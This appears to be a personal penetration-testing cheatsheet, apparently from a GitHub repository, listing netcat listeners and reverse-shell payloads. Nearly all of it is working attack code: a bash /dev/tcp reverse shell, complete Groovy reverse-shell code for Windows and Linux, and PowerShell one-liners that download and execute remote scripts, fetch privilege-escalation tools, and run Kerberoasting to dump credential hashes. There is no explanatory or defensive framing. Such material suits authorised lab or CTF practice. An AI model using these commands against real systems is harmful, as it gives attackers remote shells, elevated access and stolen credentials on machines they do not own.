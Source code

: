 # Netcat Cheatsheet

## Open Netcat Server

- nc -lv localhost 8782
- ncat -lvnp 1234

## target windows

- stty raw -echo; (stty size; cat) | ncat -lvnp 1337

## Spawn Ngrok Server

- ngrok tcp 8782

## Payload Client

- <https://www.revshells.com>
- <https://bit.ly/3yNL1hg>
- sh -i >& /dev/tcp/10.9.2.251/1234 0>&1

## Spawn TTY

- python -c 'import pty; pty.spawn("/bin/sh")'
- python -c 'import pty; pty.spawn("/bin/bash")'

## Spawn python server

python3 -m http.server 9000

## Groovy :

- Windows
String host="10.9.2.251";
int port=1234;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

- Linux
String host="10.9.2.251";
int port=1234;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();


## powershell cheatsheet

- powershell IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.168.173 1337

- powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.2.251:9000/payload/windows/revshellwindow.ps1');Invoke-ConPtyShell 10.9.2.251 1338

- powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.2.251:9000/payload/windows/revshellwindowold.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.9.2.251 -Port 1338

- powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.1.25:9000/payload/payload.bat','payload.bat')"

- powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.1.25:9000/linpeas/peass.exe','peass.exe')"

- Start-Process "payload.bat"

- powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.1.25:9000/printspoofer.exe','printspoofer.exe')"

- powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.2.251:9000/payload/windows/kerberoast.ps1','powerup.ps1')"

- powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.2.251:9000/payload/windows/kerberoast.ps1'); Invoke-Kerberoast -OutputFormat hashcat ​ |fl
